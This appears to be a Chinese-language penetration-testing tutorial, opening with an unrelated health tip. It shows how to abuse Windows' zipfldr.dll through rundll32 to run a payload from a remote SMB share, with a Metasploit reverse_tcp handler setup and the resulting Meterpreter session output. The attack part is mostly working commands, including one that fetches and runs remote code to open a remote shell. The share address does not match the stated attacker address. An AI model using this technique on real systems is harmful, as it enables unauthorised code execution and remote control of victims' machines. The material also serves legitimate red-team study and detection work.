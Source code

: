 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### zipfldr.dll简介：
zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件。

**说明：**zipfldr.dll所在路径已被系统添加PATH环境变量中，因此，zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

Windows 2003 默认位置：
```bash
C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll
```

Windows 7 默认位置：
```bash
C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll
```

**攻击机：**   
192.168.1.4 Debian  
**靶机：**   
192.168.1.3 Windows 7  
192.168.1.3 Windows 2003

### 配置攻击机msf：
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/9fef673f4302344108c99ae65736192b.jpg)

### 靶机执行：

```bash
rundll32.exe zipfldr.dll,RouteTheCall \\192.168.1.119\share\rev_x86_53_exe.exe
```
![](media/7897dfacc157ca226256c698c2c468a0.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 7 opened (192.168.1.4:53 ‐> 192.168.1.3:5245) at
2019‐01‐21 04:55:44 ‐0500

meterpreter > getuid
Server username: John‐PC\John
meterpreter > getpid
Current pid: 6988 
```
![](media/c702b7cef88aa93a5dadb129d20b4917.jpg)

>   Micropoor
